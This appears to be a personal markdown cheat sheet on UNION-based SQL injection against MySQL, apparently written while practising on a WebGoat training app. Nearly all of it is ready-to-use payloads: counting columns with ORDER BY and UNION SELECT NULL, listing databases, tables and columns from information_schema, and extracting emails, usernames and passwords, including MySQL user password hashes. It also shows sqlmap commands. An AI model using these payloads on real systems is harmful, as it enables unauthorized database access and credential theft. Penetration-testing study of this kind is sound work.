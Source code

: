 SQL Injection UNION Based
=========================

Notes
-----
```
-- requires a space at the end (--+) !!!!!!!!!!!!!!!!!!!!
Depending on identified injection technique use "#" or "--+" for comment.
Should use "--+" when atttack in the URL

Nice cheat sheet
https://www.perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

It is possible to use ASCII HEX encoding for some of the variable names. (Use Burp decoder/encoder)
Must be prefixed with "0x"
When using ASCII HEX, quotes are not required. Do not use them...
"databasename" when encoded would become "0x64617461626173656e616d65"
"tablename" when encoded would become "0x7461626c656e616d65"

Use sqlmap -v 7 to gather more details
sqlmap -r ./xxxxx.txt --batch -v 7 > ./yyyyyyyyyy.txt
-t TRAFFICFILE ?????????
Review results............

Add comments at end of parameter to help identify SQLInjection
Valid request returns no error
theUserName=fzappa
Returns Error
theUserName=fzappa'
Returns No Error (potentially vulnerable)
fzappa--+ORDER+BY+1
```




Get Number of Columns First (Required for further attacks)
----------------------------------------------------------
```
# Method 1
# Increment "number" by 1 and monitor response for different responses or errors.
# If the error is returned on "'+ORDER+BY+4#" then the table has 3 columns. 
'+ORDER+BY+1#
'+ORDER+BY+2#
'+ORDER+BY+3#
'+ORDER+BY+4#
'+ORDER+BY+5#
'+ORDER+BY+?............#


# Method 2
# Increment ",NULL" by adding additional ",NULL" and monitor response for different responses or errors.
# If the error is returned on "'+UNION SELECT NULL,NULL,NULL,NULL#" then the table has 3 columns. 
'+UNION+SELECT+NULL#
'+UNION+SELECT+NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL#
'+UNION+SELECT+NULL,NULL,NULL,NULL........#
```



Retrieve All Database Names
---------------------------
```
'UNION+ALL+SELECT+NULL,NULL,concat(schema_name)+FROM+information_schema.schemata#
```



Get Current Database Name and Additional Information
----------------------------------------------------
```
'+UNION+ALL+SELECT+database(),NULL,NULL#
@@datadir
@@hostname
@@version
current_role()
database()
found_rows
row_count()
schema()
session_user()
system_user()
user()
version()
```



Get Tables in Database
----------------------
```
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,concat(TABLE_NAME)+FROM+information_schema.TABLES+WHERE+table_schema='webgoat_coins'#
```


Get Columns When Table Name is Known
------------------------------------
```
# Table has 3 columns as identified above for this reason there are two "NULL" required. 
'+UNION+ALL+SELECT+NULL,NULL,CONCAT(column_name,'+',column_type)+FROM+INFORMATION_SCHEMA.COLUMNS+WHERE+table_name='products'+AND+table_schema='webgoat_coins'#
```


Get Data from Columns MORE NOTES NEEDED 
---------------------
```
ADD CONCAT technique!!!!!!!!!!!!!!!!!!!
INJECTION MUST RESPECT THE NUMBER OF COLUMNS. USE NULL IF REQUIRED.

'+UNION+SELECT+NULL,email,+password+FROM+customerlogin#
'+UNION+SELECT+answer,email,+password+FROM+customerlogin#


#############TESTING NOTES########################
Get data from other tables
'+UNION+SELECT+username,+password+FROM+users+

Retrieving multiple values within a single column - useful if the application only returns a single column in the response.
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```




Get Data From Other Databases
-----------------------------
```
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,column1,0x3a,column2,0x29)+FROM+dbname.tablename#
'UNION+ALL+SELECT+NULL,NULL,concat(0x28,user,0x3a,password,0x29)+FROM+mysql.user#

```
